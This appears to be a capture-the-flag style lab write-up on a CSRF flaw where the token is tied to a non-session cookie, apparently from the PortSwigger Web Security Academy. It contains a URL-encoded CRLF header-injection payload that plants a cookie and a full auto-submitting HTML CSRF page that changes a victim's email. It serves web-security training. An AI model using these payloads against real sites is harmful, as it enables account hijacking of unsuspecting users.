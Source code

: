 
### CSRF where token is tied to non-session cookie : PRACTITIONER

---


> Given credentials `wiener:peter`.
> Given credentials `carlos:montoya`.

> Logging in with the given credentials.

![](./screenshots/lab1-1.png)

> We see this page.

![](./screenshots/lab1-2.png)

> We know that the update email is vulnerable to CSRF.
> Capturing a `POST` request via BURPSUITE PROXY HTTP history while updating the email address.

![](./screenshots/lab5-1.png)

> We see there is a `csrfKey` cookie and a `csrf` parameter.
> We need to test how these operate.

1. Test if we can change the `csrf` token

![](./screenshots/lab5.png)

2. Test if we can place the `csrf` token of another user.

> To do that, login as carlos in another window and obtain the `csrf` key.

![](./screenshots/lab5-2.png)
> Copying the `csrf` parameter : `36xWkR6Qt7lkp3iFgB7i7pBUxebEycWk`.

> Place it into the parameter in the `POST` request.

![](./screenshots/lab5-3.png)


3. Test if we can take the `csrfKey` cookie and `csrf` token parameter from another user, so it works without verifying the session cookie.

> To do that, login as carlos in another window and open the cookies.

![](./screenshots/lab5-4.png)

> Copying the `csrfKey` : `IBuIZ44nmISVeACecCzxOeLyT1YIxL9p`.
> Entering in the `POST` request the csrfKey and csrf parameter of the other user and trying to change the email of the wiener user.

![](./screenshots/lab5-5.png)

> It works.

> Therefore, in order to conduct an attack, we need to construct an HTMl payload that contains the 2 parameters `email` and `csrf`.
> However, we need to be able to set the cookie.
> To do that, we can use the search functionality on the website.

![](./screenshots/lab5-6.png)

> Capturing the `GET` request after searching using HTTP history.

![](./screenshots/lab5-8.png)

> There is a `Set-Cookie` header being used to create a new cookie.
> Therefore, we can play with this request to add another cookie, letting it be called `csrfKey` and setting its value to the one we found above `IBuIZ44nmISVeACecCzxOeLyT1YIxL9p`.

> To do that, we can add HTML headers through the URL.
```
/?search=mins
Set-Cookie: csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p;
```
> However, we need to URL encode this payload.
```
/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b
```

> Adding this payload at the end of the `GET` request above.

![](./screenshots/lab5-9.png)

> We see that we added our own `csrfKey` cookie.
> This means that we can inject our own cookies.
> The next step, is to incorporate this payload into the HTML payload.

> This is the normal payload we used in previous labs.
```HTML
<html> 
	<body> 
		<form action="https://0ac300f804afc620825233f6008700d8.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="newmins@mins.com" /> 
			<input type="hidden" name="csrf" value="36xWkR6Qt7lkp3iFgB7i7pBUxebEycWk" />
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```

> This will change, because we need to add the payload to add the `csrfKey` cookie.

```HTML
<html> 
	<body> 
		<form action="https://0ac300f804afc620825233f6008700d8.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="newmins@mins.com" /> 
			<input type="hidden" name="csrf" value="36xWkR6Qt7lkp3iFgB7i7pBUxebEycWk" />
		</form> 
		<img src="https://0ac300f804afc620825233f6008700d8.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b%20SameSite=None" onerror="document.forms[0].submit()">
	</body> 
</html>
```


> We added an image that loads a page with the URL of the `GET` request above that we modified to set the cookie.
> Getting the host and path from the `GET` request to create the full URL that is placed in the `src` attribute.
> This link gets loaded, but since it isn't a valid image, after it gets loaded, the `onerror` attribute submits the form, completing the action.

> Adding this to exploit server, then storing and delivering to victim completes the lab.

---

